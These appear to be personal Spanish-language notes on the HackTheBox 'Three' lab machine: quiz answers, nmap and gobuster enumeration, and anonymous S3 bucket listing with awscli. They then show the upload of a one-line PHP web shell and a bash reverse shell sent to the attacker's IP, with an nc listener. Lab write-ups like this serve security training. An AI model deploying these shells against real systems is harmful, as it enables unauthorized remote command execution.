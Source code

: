 1)¿Cuántos puertos TCP hay abiertos?
	2

2)¿Cuál es el dominio de la dirección de correo electrónico facilitada en la sección «Contacto» del sitio web?
	thetoppers.htb

3)En ausencia de un servidor DNS, ¿qué archivo de Linux podemos utilizar para resolver nombres de host en direcciones IP con el fin de poder acceder a los sitios web que apuntan a esos nombres de host?
	/etc/hosts

4)¿Qué subdominio se descubre durante la enumeración posterior?
	s3.thetoppers.htb
	[[aws]]
	
5)¿Qué servicio se ejecuta en el subdominio descubierto?
	amazon s3

6)¿Qué utilidad de línea de comandos puede utilizarse para interactuar con el servicio que se ejecuta en el subdominio descubierto?
	awscli
	Pero el comando para usar en consola es aws

7)¿Qué comando se utiliza para configurar la instalación de la CLI de AWS?
	aws configure

8)¿Cuál es el comando utilizado por la utilidad anterior para listar todos los buckets de S3?
	aws s3 ls
	
9)¿Este servidor está configurado para ejecutar archivos escritos en qué lenguaje de scripting web?
	php

-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.227.248
nmap -p- --open -vvv --min-rate 5000 -sS -n -Pn 10.129.227.248 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.129.227.248 -oN target
```

![[Three1.png]]

![[Three2.png]]

Sabemos que es una maquina linux por el ttl cercano a 64, y que el puerto 22 esta abierto con un servicio ssh y el 80 con un apache

------
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]
![[Three3.png]]
El script de nmap no conectaba y el whatweb nos da el mail con dominio thetoppers.htb que lo vamos a agregar a etc/hosts para probar

------

# Agregar dominio a /etc/hosts

```
10.129.227.248 thetoppers.htb
```

![[Three4.png]]

--------

# Enumeracion de subdominios con [[Gobuster]]
Tuvimos que usar el gobuster, por que en el ffuf no salia nada y al ver el writeup, vemos que con gobuster si encontraba el subdominio, pero como sale con codigo de estado 404, no nos aparece en ffuf

```shell
gobuster vhost -u http://thetoppers.htb -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

![[Three5.png]]
Como resultado tenemos s3.thetoppers.htb

-----
# Agregar dominio a /etc/hosts

```
10.129.182.45 s3.thetoppers.htb
```

![[Three6.png]]

Ahora entramos a la pagina `http://s3.thetoppers.htb/` y ya nos va a cargar
![[Three13.png]]

-------
# Intrusion a la maquina con [[aws]]

Vamos a acceder a los contenedores de amazon s3, y ver sus contenidos para enumerar un poco, podemos ver que estos son los archivos de la pagina principal, asi que vamos a cargar posteriormente un archivo que nos permita ejecutar comandos

```shell
aws --endpoint-url http://s3.thetoppers.htb s3 ls --no-sign-request
aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb --no-sign-request
```

![[Three7.png]]
Con el primer comando al ver que nos responde thetoppers.htb sabemos que esta hosteando la pagina victima, asi que vamos a intentar cargar y/o modificar archivos
Con el segundo comando visualizamos el contenido del directorio



Vamos a descargar el archivo index para ver si nos da alguna pista:
```shell
aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb/index.php --no-sign-request
```

![[Three10.png]]
El contenido del archivo index no nos dio ningun dato util
#### Cargamos el archivo [[archivo php inyección comandos]]

Contenido del archivo exploit.php
```
<?php system($_GET["cmd"]); ?>
```

Ahora con este comando de [[aws]] vamos a cargar el archivo exploit.php
```
aws --endpoint-url=http://s3.thetoppers.htb s3 cp exploit.php s3://thetoppers.htb --no-sign-request
```

![[Three8.png]]

Desde la maquina victima, vamos a hacer una prueba para ver si funciona el archivo que cargamos

http://thetoppers.htb/exploit.php?cmd=id
![[Three9.png]]
Como podemos ver nos muestra nos responde, asi que el archivo cumple su funcion correctamente



-------
## Enviamos la [[Reverse shell]] mientras estamos en escucha con [[nc -nlvp 443]] en nuestra maquina

##### Desde la maquina victima:

```
http://thetoppers.htv/exploit.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.16/443 0>%261'
```

![[Three11.png]]

##### Desde la maquina atacante:

```
nc -nlvp 443
```
![[Three12.png]]
Una vez dentro de la maquina cateamos la flag

----------
# Creditos
Writeup oficial HackTheBox